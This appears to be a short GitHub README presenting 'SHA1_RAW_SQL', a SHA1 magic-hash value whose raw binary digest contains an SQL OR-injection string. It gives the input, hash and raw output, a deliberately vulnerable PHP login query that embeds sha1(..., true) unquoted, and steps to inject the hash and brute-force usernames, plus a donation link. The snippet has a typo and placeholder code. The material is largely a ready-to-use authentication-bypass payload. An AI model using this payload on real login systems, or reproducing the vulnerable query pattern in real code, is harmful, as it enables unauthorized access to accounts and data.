 # SHA1_RAW_SQL

| Hash string                | SHA1 Hash                                     | Raw output            |Query |Author    |
| -------------------------- |:---------------------------------------------:|:---------------------:|:----:|:--------:|
| 5651578060603509           |96009c0bafe7be05e23b0079226f7222d82fee88       |E&�ɶ��'||'8�vjc\�     |'||'1 |0xJohannes|


#  EXAMPLE USAGE

```php
<?php

...SOME CODE...

function escape_sql()
  {
    ...sql escape...
  }
  
$pass = sha1($_POST['pass'], true);

$log = escape_sql($_POST'log']);

$sql = "select * from tablename where password=$pass AND username=$log";

...SOME CODE...
?>
```
* The first step is to inject one of suitable hashes.
* The second move is bruteforcing the login value i.e, (admin, 4dm1n and so on)
* The final step is buying me a coffee :D [![Coffee](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](buymeacoff.ee/Wo30ewVvi)
